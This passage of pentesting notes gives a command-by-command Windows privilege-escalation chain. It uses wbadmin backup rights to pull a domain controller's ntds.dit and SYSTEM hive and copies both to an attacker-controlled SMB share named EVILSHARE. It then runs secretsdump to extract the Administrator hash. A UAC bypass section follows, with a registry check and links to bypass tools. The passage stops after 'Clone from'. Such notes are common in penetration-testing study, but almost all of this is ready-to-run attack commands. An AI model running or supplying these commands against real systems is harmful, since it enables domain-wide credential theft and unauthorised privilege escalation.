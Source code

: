 ```bash
wbadmin start backup -quiet -backuptarget:\\dc01\c$\users\svc_backup\Desktop -include:c:\windows\ntds
```

```bash
wbadmin get versions
```

```bash
wbadmin start recovery -quiet -version:01/04/2023-16:11 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\users\svc_backup\desktop -notrestoreacl
```

```bash
reg save hklm\system c:\users\svc_backup\Desktop\system
```

```bash
copy ntds.dit \\$kali_ip\EVILSHARE\ntds.dit
```

```bash
copy system \\$kali_ip\EVILSHARE\system
```

```bash
python3 secretsdump.py -ntds ntds.dit -system system LOCAL | grep Administrator
```

- SeImpersonatePrivileges

### UAC Bypass

[https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/](https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/)

<aside>
💡 The user belongs to Administrators group but have only a few privileges

</aside>

1. Confirm that UAC is configured in the system

```bash
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System | findstr -i "ConsentPromptBehaviorAdmin EnableLUA PromptOnSecureDesktop"
```

> EnableLUA 0x1, PromptOnSecureDesktop 0x1, ConsentPromptBehaviorAdmin 0x0, 0x2 or 0x5.
> 

[https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)

[https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4)

1. Clone from

[https://github.com/turbo/zero2hero](https://github.com/turbo/zero2hero)
